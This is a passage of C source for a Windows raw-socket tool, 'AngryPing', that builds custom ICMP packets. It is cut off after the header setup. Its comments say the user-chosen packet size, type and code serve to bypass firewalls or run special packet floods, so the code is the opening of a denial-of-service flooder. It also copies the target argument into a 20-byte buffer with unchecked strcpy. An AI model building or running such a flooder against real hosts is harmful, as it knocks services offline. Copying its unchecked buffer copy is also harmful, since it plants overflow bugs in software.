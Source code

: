 ```
   SOCKET SockRaw=(SOCKET)NULL;
   struct sockaddr_in DestAddr;
   ICMP_HEADER icmp_header;
   char DestIp[20]; //目标IP

   if (argc<2)
    {
      printf("AngryPing by HBU-LK007\n");
      printf("Usage:%s [Dest] <PacketSize> <type> <code>\n",argv[0]); 
//允许用户自定义数据包大小、类型、代码，用以绕过一些防火墙或做一些特殊的报文Flood
      exit(0);
    }
   strcpy(DestIp,argv[1]);
   if (argc>2) PacketSize=atoi(argv[2]); //取得数据大小
if (PacketSize>65500) 
{ 
printf("Packet size must less than 65500\n"); //太大会无法生成IP数据报的
exit(0); 
}

   if (argc>3) type=atoi(argv[3]); //取得类型值
   if (type>16) 
{ 
printf("Type must less than 16\n"); 
exit(0); 
}

   if (argc>4) code=atoi(argv[4]); //取得代码值

//初始化SOCK_RAW
   if((ErrorCode=WSAStartup(MAKEWORD(2,1),&wsaData))!=0)
    {
      fprintf(stderr,"WSAStartup failed: %d\n",ErrorCode);
      exit(0);
    }

   if((SockRaw=WSASocket(AF_INET,SOCK_RAW,IPPROTO_ICMP,NULL,0,WSA_FLAG_OVERLAPPED))==INVALID_SOCKET)
    {
      fprintf(stderr,"WSASocket failed: %d\n",WSAGetLastError());
      exit(0);
    }
   flag=TRUE;

{

//设置发送超时
   ErrorCode=setsockopt(SockRaw,SOL_SOCKET,SO_SNDTIMEO,(char*)&TimeOut,sizeof(TimeOut));
   if (ErrorCode==SOCKET_ERROR)
    {
      fprintf(stderr,"Failed to set send TimeOut: %d\n",WSAGetLastError());
      exit(1);
   }

//主要代码开始
printf("Dest:%s   packet:%d   type:%d   code:%d\n\n",argv[1],PacketSize,type,code);
printf("Starting...\n\n");   //视觉效果:P
   memset(&DestAddr,0,sizeof(DestAddr));
   DestAddr.sin_family=AF_INET;
   DestAddr.sin_addr.s_addr=inet_addr(DestIp); //填充Socket结构
//填充ICMP首部
   icmp_header.i_type = type;
   icmp_header.i_code = code;
```